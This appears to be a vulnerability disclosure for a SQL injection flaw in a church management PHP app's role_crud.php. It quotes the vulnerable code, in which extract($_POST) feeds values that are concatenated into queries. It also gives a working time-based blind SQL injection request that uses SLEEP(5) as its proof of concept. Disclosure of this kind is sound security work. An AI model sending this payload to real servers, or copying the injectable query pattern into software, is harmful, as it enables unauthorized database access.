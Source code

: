 ### Vulnerability file address

`church/admin/app/role_crud.php` from line 34,The `extract($_POST);` parameter is controllable and the `$_POST['name']` is not protected from sql injection, line 37 `$stmt = $conn->prepare("UPDATE groups set name='$name',description='$description' where id='".$_POST['id']."'");` ,line 38 `$stmt->execute();` performs a SQL query, causing SQL injection

```php
if (isset($_POST['update'])) {
      
      
     extract($_POST);
     $stmt = $conn->prepare("delete  from permission_role where group_id='".$_POST['id']."'");
    $stmt->execute();
    $stmt = $conn->prepare("UPDATE groups set name='$name',description='$description' where id='".$_POST['id']."'");
    $stmt->execute();

$checkItem = $_POST["checkItem"];
//print_r($_POST);
 $a = count($checkItem);  
for($i=0;$i<$a;$i++){
 $id = $_POST['id'];
         $sql="insert into permission_role(permission_id,group_id)values('$checkItem[$i]','$id')";
          $execute = $conn->query($sql);
        
       }
    
        $_SESSION['update'] = "update";
        header("location:../manage_role.php");
    }
```

### POC

```http
POST /church/admin/app/role_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

update=1&checkItem[]=1&name='||(SELECT 0x54554a62 WHERE 7109=7109 AND (SELECT 4242 FROM (SELECT(SLEEP(5)))wnYS))||'&description=member11&id=123
```

### Attack results pictures

![image-20250505205901513](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505052059554.png)